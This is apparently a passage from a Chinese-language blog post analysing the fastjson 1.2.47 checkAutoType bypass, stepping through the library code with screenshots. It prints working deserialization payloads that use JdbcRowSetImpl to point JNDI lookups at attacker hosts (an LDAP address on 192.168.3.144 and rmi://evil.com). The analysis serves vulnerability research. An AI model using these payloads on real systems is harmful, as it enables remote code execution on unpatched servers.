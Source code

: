 #### 分析

在`1.2.25` 版本后,`fastjson` 增加了对`@type` 加载类的检测.

这里我以 `fastjson 1.2.47`为例进行分析:

其实将上面一段`json`数据带入到以下代码来分析可能会比较容易理解:

```java
 String payload="{\"@type\":\"java.lang.Class\",\"val\":\"com.sun.rowset.JdbcRowSetImpl\"}";
 String payload_2 = "{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\"dataSourceName\":\"ldap://192.168.3.144:1389/8qmdyu\",\"autoCommit\":true}";
JSON.parse(payload);
JSON.parse(payload_2);
```



在解析`{"@type": "java.lang.Class","val": "com.sun.rowset.JdbcRowSetImpl"}`时.

在`checkAutoType`处:

由于默认的 `autoTypeSupoort` 为`flase`,所以默认就不会进入到 黑名单的判断逻辑里.

![image-20220716165545983](https://particles.oss-cn-beijing.aliyuncs.com/img/image-20220716165545983.png)



随后,在`第832行` 将 `clazz`赋值为`java.lang.class` `class 类`.

![image-20220716170031539](https://particles.oss-cn-beijing.aliyuncs.com/img/image-20220716170031539.png)

继续跟踪,会发现再`MiscCodec.class`中的`第304`行将`strVal`也就是 `{"@type": "java.lang.Class","val": "com.sun.rowset.JdbcRowSetImpl"}`中的 `com.sun.rowset.JdbcRowSetImpl`,带入到了 `TypeUtils.loadClass`函数

![image-20220716171415164](https://particles.oss-cn-beijing.aliyuncs.com/img/image-20220716171415164.png)

跟进函数,发现将 `com.sun.rowset.JdbcRowSetImpl` 字符串放入到了 `map`中.

![image-20220716172253220](https://particles.oss-cn-beijing.aliyuncs.com/img/image-20220716172253220.png)



之后再解析`{"@type": "com.sun.rowset.JdbcRowSetImpl","dataSourceName": "rmi://evil.com:9999/Exploit","autoCommit": true}` 时,在`checkAutoType`函数中,成功从`TypeUtils.getClassFromMapping` 获取到了之前在`map`中的缓存类,也就是`com.sun.rowset.JdbcRowSetImpl`,最后return直接返回`class: com.sun.rowset.JdbcRowSetImpl`,从而绕过了 `checkAutoType` 的检测.![image-20220716170808404](https://particles.oss-cn-beijing.aliyuncs.com/img/image-20220716170808404.png)





> 对 Java 的熟悉程度还远不支持我跟进和分析每一个 Java 函数的作用,所以本片文章是在作者尽可能读懂代码下，根据前辈大佬们的文章进行复现的



# 参考

https://i.kimmking.cn/2017/06/06/json-best-practice/

https://cloud.tencent.com/developer/article/1674171

https://paper.seebug.org/942/#1-rmi-remote-object-payload

fastJson:1.2.47:

https://cert.360.cn/warning/detail?id=7240aeab581c6dc2c9c5350756079955

https://www.freebuf.com/vuls/208339.html

https://xz.aliyun.com/t/9052#toc-15